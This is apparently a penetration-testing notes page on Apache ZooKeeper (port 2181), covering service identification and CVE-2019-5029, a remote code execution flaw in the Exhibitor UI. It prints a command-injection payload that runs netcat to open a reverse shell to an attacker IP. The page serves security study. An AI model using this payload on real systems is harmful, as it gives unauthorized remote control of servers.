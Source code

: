 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 2181 - ZooKeeper

Apache ZooKeeper is a centralized service designed to manage configuration, naming, synchronization, and coordination in distributed systems. It helps multiple nodes in a cluster maintain consistent state and coordinate actions, ensuring reliability and fault tolerance in complex environments. By default, ZooKeeper listens on TCP port `2181`, which is used for client connections to the service and inter-node communication within the cluster.

## RCE

{% code overflow="wrap" %}
```bash
# Identify ZooKeeper
PORT      STATE SERVICE     VERSION
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
```
{% endcode %}

<figure><img src="../../.gitbook/assets/pelican_zookeeper_exhibitor.png" alt=""><figcaption><p>ZooKeeper Exhibitor's UI.</p></figcaption></figure>

ZooKeeper Exhibitor's UI (`1.0.9` to `1.7.1`) has a RCE vulnerability ([CVE-2019-5029](https://nvd.nist.gov/vuln/detail/CVE-2019-5029)) with an available [PoC](https://www.exploit-db.com/exploits/48654):

```bash
# Payload
$(/bin/nc -e /bin/sh 192.168.45.236 80 &)
```

<figure><img src="../../.gitbook/assets/pelican_zookeeper_exhibitor_rce.png" alt=""><figcaption></figcaption></figure>
